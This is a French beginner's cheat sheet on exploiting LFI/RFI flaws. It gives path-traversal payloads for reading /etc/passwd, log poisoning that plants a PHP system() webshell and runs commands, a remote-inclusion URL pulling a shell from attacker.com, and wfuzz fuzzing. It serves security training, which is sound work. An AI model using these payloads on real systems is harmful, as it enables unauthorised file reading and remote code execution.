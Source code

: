 # LFI/RFI (Local/Remote File Inclusion)

## Objectif
Exploiter une faille d'inclusion de fichier pour lire des fichiers sensibles (LFI) ou exécuter du code distant (RFI).

---

## Commandes essentielles et explications

### 1. Détection de la vulnérabilité LFI
- Tester des payloads dans un paramètre de fichier :
```
http://target.com/page.php?file=../../../../etc/passwd
```
- **À quoi ça sert ?** Si le contenu du fichier `/etc/passwd` s'affiche, la page est vulnérable à la LFI.
- **Astuce débutant** : Tester différents niveaux de "../" selon l'arborescence.

### 2. Exploitation avancée LFI
- Log poisoning (empoisonnement de logs pour exécuter du code) :
```
curl -A "<?php system($_GET['cmd']); ?>" http://target.com/
http://target.com/page.php?file=../../../../var/log/apache2/access.log&cmd=id
```
- **À surveiller** : Exécution de commandes système via l'inclusion du log empoisonné.

### 3. Détection de la vulnérabilité RFI
- Tester avec une URL externe :
```
http://target.com/page.php?file=http://attacker.com/shell.txt
```
- **À quoi ça sert ?** Si le code distant est exécuté, la page est vulnérable à la RFI.
- **Astuce** : Tester avec un fichier texte simple puis un webshell.

### 4. Utilisation d'outils automatisés
```bash
wfuzz -c -w /usr/share/wordlists/wfuzz/lfi/lfi-list.txt --hh 0 "http://target.com/page.php?file=FUZZ"
```
- **wfuzz** : Fuzzer pour tester de nombreux payloads LFI automatiquement.
- **--hh 0** : Ignore les réponses vides.

---

## Conseils pour débutants
- Toujours tester d'abord en manuel, puis automatiser avec wfuzz ou ffuf.
- Ne pas négliger les logs, les fichiers de config, les backups.
- Tester sur des environnements de lab, jamais en production sans autorisation.
- Lire la documentation de chaque outil pour découvrir des options avancées.

---

## Pour aller plus loin
- [PayloadsAllTheThings - LFI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
- [OWASP LFI](https://owasp.org/www-community/attacks/Local_File_Inclusion) 